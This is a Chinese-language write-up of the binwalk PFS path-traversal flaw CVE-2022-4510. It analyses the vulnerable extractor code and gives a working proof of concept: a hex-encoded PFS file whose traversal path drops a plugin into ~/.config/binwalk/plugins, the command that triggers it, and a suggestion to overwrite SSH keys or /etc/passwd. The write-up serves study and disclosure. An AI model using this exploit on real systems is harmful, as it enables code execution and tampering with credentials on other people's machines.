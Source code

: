 ﻿# 简介
根据cve官方描述，从版本2.1.2到 2.3.3的binwalk中发现了一个路径遍历漏洞。此漏洞允许远程攻击者在安装受影响的binwalk机子上执行任意代码

# 什么是PFS文件
PFS文件是由PhotoFiltre Studio（图像修饰程序）创建的选择文件。 它包含图像编辑器的多边形选择工具使用的坐标，以便在给定坐标之间绘制线。 PFS文件以纯文本格式存储。

PFS文件格式
```
https://lekensteyn.nl/files/pfs/pfs.txt
```
# 分析源代码
一个PFS提取器插件在2017年合并到了binwalk中，做了一下修改
```
     def extractor(self, fname):
         fname = os.path.abspath(fname)
         out_dir = binwalk.core.common.unique_file_name(os.path.join(os.path.dirname(fname), "pfs-root"))

         try:
             with PFS(fname) as fs:  #读取pfs文件数据
               data = open(fname, 'rb')
               data = binwalk.core.common.BlockFile(fname, 'rb')
               data.seek(fs.get_end_of_meta_data())
               for entry in fs.entries():
                   outfile_path = os.path.join(out_dir, entry.fname)
                   if not outfile_path.startswith(out_dir): 
                        binwalk.core.common.warning("Unpfs extractor detected directory traversal attempt for file: '%s'. Refusing to extract." % outfile_path)
                    else:
                        self._create_dir_from_fname(outfile_path)
                        outfile = binwalk.core.common.BlockFile(outfile_path, 'wb')
                        outfile.write(data.read(entry.fsize))
                        outfile.close()
                 data.close()
         except KeyboardInterrupt as e:
             raise e
```
问题出现在os.path.join函数上，因为第11行的代码没有完全进行路径解析，所以第12行的条件就永远不会为真

![](https://img-blog.csdnimg.cn/ad49dba936a847189abd044da3a7b2f9.png)

通过制作一个路径遍历的PFS文件，我们可以强制binwalk在目录之外写入文件



# POC
用户可以使用binwalk的 API 定义自己的插件，只需要把插件放在$HOME/.config/binwalk/plugins/目录下，之后运行binwalk时就会调用插件

恶意代码：
```
import binwalk.core.plugin

class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        print("baimao")
```
保存后用winhex打开文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/45627e03e1dc45d58da9ad2902bf69ef.png)

直接粘贴以下十六进制数据

```
5046 532f 302e 3900 0000 0000 0000 0100
2e2e 2f2e 2e2f 2e2e 2f2e 636f 6e66 6967
2f62 696e 7761 6c6b 2f70 6c75 6769 6e73
2f6d 616c 7761 6c6b 2e70 7900 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
3412 0000 a000 0000 c100 0000
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/c3790ccbe4a44a1e9e1f2eaa66a40d2b.png)


将.py保存为.pfs文件，然后添加到压缩包里


![在这里插入图片描述](https://img-blog.csdnimg.cn/5a11136800e44ee087845eac778e202d.png)


当从用户的主目录中用binwalk提取文件时，会在.config/binwalk/plugins加入一个插件，这个恶意插件随后会被 binwalk 加载和执行，从而导致 RCE

```
cd ~
binwalk -M -e exp.zip
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/3c08525f31bd40a794946df5bdaacb5d.png)

成功执行代码

# 总结
今年1月31号才披露细节的cve，学习了一下，除了覆盖./.config/binwalk/plugins/malwalk.py文件，我们还可以覆盖id.rsa或者/etc/passwd文件来直接提权

参考文档：
```
https://nvd.nist.gov/vuln/detail/CVE-2022-4510
https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk
```

